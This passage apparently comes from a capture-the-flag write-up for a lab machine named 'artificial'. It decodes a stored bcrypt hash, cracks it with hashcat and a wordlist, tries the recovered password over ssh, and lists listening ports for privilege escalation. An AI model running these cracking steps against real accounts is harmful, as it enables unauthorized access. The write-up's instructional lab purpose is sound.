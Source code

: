 Found out there is a `backrest_root` user and the password hash is `JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWlpbkNtamVpMmtaRi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP`. <br>
Seem like this password has been base64 encoded. Let's decode it. <br>
&rarr; Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=SkRKaEpERXdKR05XUjBsNU9WWk5XRkZrTUdkTk5XZHBia050YW1WcE1tdGFVaTlCUTAxTmExTnpjM0JpVW5WMFdWQTFPRVZDV25vdk1GRlA) and got this `$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO`.

Let's crack it.

```bash
└─$ hashcat -h | grep -i bcrypt                                         
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

```bash
└─$ hashcat -m 3200 backrest_root.hash /usr/share/wordlists/rockyou.txt
```

```bash
└─$ hashcat -m 3200 backrest_root.hash /usr/share/wordlists/rockyou.txt --show
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

Got the password: `!@#$%^`. <br>
&rarr; Let's ssh to `backrest_root` user.

```bash
└─$ ssh backrest_root@10.129.43.221      
backrest_root@10.129.43.221's password: 
Permission denied, please try again.
```

Though that we can ssh into the `backrest_root` user, but it's not working. <br>
&rarr; Let's uncover more about `gael` user if there is some port is open.

## Privilege Escalation
### Port 9898
```bash
gael@artificial:~$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
